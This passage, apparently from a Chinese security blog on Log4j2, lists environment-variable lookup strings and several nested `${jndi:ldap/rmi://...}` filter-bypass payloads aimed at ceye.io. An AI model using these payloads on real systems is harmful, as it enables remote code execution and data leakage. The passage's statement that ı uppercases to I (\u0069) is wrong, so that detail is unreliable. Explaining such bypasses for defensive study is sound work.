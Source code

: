 ```java
${env:SESSIONNAME}
${env:SystemDrive}
${env:SystemRoot}
${env:TEMP}
${env:TMP}
${env:ThisExitCode}
${env:USERDOMAIN}
${env:USERNAME}
${env:USERPROFILE}
${env:WORK_PATH}
${env:windir}
${env:windows_tracing_flags}
${env:windows_tracing_logfile}
```

# 一些绕过

由于log4j2支持嵌套解析，所以也就据此有了相当多的绕过Payload，本质上都是在绕过一些不完善的正则式批评：

```java
${jndi:ldap://127.0.0.1:1389/a}
${${:::::-j}${what:-n}${ls:-d}${1QAZ2wxs:-i}://ceye.io/a}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://ceye.io/a}
${${::-j}ndi:rmi://ceye.io/a}
```

此外，由于Java中也有类似于Python里面的upper和lower的解析问题，比如 ı（\u0131） 经过 `toUpperCase` 转为 I（\u0069）。

![img](/blog_img/1639318126245.png)
